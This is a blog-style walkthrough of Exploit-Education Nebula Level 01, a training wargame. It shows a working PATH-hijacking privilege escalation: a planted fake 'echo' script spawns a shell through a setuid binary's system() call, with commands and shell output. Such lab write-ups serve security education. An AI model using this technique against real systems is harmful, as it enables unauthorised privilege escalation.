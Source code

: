 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 01"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### Exploit Education Nebula Level 1

## Challenge

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

## Analysis

lets look at the program permissions first 

```
level01@nebula:/home/flag01$ ls -la
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01

```
The program `flag0` has the `setuserid` bit set
lets see where the vulnerability is in the program

## Vulnerability 

```
system("/usr/bin/env echo and now what?");
```
We can see that the system look for echo program in the directories mentioned in the environment variable `PATH`

```
level01@nebula:/bin$ env | grep PATH
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

level01@nebula:/home/flag01$ which echo
/bin/echo
```
So `echo` from `/bin/` directory is executed. So if we can add another directory before `/bin` in `PATH` 
and write an echo program, we can run any code we want

## Exploitation

Lets add `/home/level01/` to path variable and create an file echo that will execute a shell
```
level01@nebula:/$ PATH=/home/level01:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
level01@nebula:/$ export PATH
level01@nebula:/$ env | grep PATH
PATH=/home/level01:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

level01@nebula:/$ cd /home/level01
level01@nebula:~$ nano echo
```
Contents of `echo` file 
```
echo "Excecuting Shell"
/bin/sh
```
Lets run `flag01` now
```
level01@nebula:/home/flag01$ ./flag01
Excecuting Shell
sh-4.2$ whoami
flag01
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$ which echo
/home/level01/echo
sh-4.2$
```
### Solved!